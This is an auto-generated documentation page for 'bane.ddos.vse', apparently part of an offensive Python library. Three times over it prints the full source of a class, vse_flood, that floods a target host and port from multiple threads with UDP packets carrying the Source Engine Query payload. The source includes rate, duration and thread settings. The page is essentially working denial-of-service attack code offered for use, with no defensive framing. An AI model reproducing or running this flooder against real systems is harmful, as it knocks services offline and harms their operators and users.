 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.vse</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.ddos.utils import *

class vse_flood(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        threads_daemon=True,
        interval=0.001,
        connection=True,
        duration=60,
        threads=1,
        limiting=True,
        logs=False,
    ):
        self.target = u
        self.port = p
        self.payload = b&#34;\xff\xff\xff\xffTSource Engine Query\x00&#34;  # read more at https://developer.valvesoftware.com/wiki/Server_queries
        self.interval = interval
        self.connection = connection
        self.duration = duration
        self.limiting = limiting
        self.logs = logs
        self.stop = False
        self.counter = 0
        self.start = time.time()
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            tm = time.time()
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
                    if self.connection == True:
                        s.connect((self.target, self.port))
                    s.sendto(self.payload, (self.target, self.port))
                    self.counter += 1
                    if (self.logs == True) and (int(time.time() - tm) == 1):
                        sys.stdout.write(&#34;\rPackets: {}   &#34;.format(self.counter))
                        sys.stdout.flush()
                        tm = time.time()
                    if self.limiting == True:
                        time.sleep(self.interval)
                except:
                    pass
                    try:
                        time.sleep(self.interval)
                    except:
                        pass
            self.kill()
        except:
            pass</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.vse.vse_flood"><code class="flex name class">
<span>class <span class="ident">vse_flood</span></span>
<span>(</span><span>u, p=80, threads_daemon=True, interval=0.001, connection=True, duration=60, threads=1, limiting=True, logs=False)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class vse_flood(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        threads_daemon=True,
        interval=0.001,
        connection=True,
        duration=60,
        threads=1,
        limiting=True,
        logs=False,
    ):
        self.target = u
        self.port = p
        self.payload = b&#34;\xff\xff\xff\xffTSource Engine Query\x00&#34;  # read more at https://developer.valvesoftware.com/wiki/Server_queries
        self.interval = interval
        self.connection = connection
        self.duration = duration
        self.limiting = limiting
        self.logs = logs
        self.stop = False
        self.counter = 0
        self.start = time.time()
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            tm = time.time()
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
                    if self.connection == True:
                        s.connect((self.target, self.port))
                    s.sendto(self.payload, (self.target, self.port))
                    self.counter += 1
                    if (self.logs == True) and (int(time.time() - tm) == 1):
                        sys.stdout.write(&#34;\rPackets: {}   &#34;.format(self.counter))
                        sys.stdout.flush()
                        tm = time.time()
                    if self.limiting == True:
                        time.sleep(self.interval)
                except:
                    pass
                    try:
                        time.sleep(self.interval)
                    except:
                        pass
            self.kill()
        except:
            pass</code></pre>
</details>
<h3>Ancestors</h3>
<ul class="hlist">
<li><a title="bane.ddos.utils.DDoS_Class" href="utils.html#bane.ddos.utils.DDoS_Class">DDoS_Class</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.vse.vse_flood.attack"><code class="name flex">
<span>def <span class="ident">attack</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def attack(self):
    try:
        time.sleep(1)
        tm = time.time()
        while True:
            if (
                int(time.time() - self.start) &gt;= self.duration
            ):  # this is a safety mechanism so the attack won&#39;t run forever
                break
            if self.stop == True:
                break
            try:
                s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
                if self.connection == True:
                    s.connect((self.target, self.port))
                s.sendto(self.payload, (self.target, self.port))
                self.counter += 1
                if (self.logs == True) and (int(time.time() - tm) == 1):
                    sys.stdout.write(&#34;\rPackets: {}   &#34;.format(self.counter))
                    sys.stdout.flush()
                    tm = time.time()
                if self.limiting == True:
                    time.sleep(self.interval)
            except:
                pass
                try:
                    time.sleep(self.interval)
                except:
                    pass
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.vse.vse_flood" href="#bane.ddos.vse.vse_flood">vse_flood</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.vse.vse_flood.attack" href="#bane.ddos.vse.vse_flood.attack">attack</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>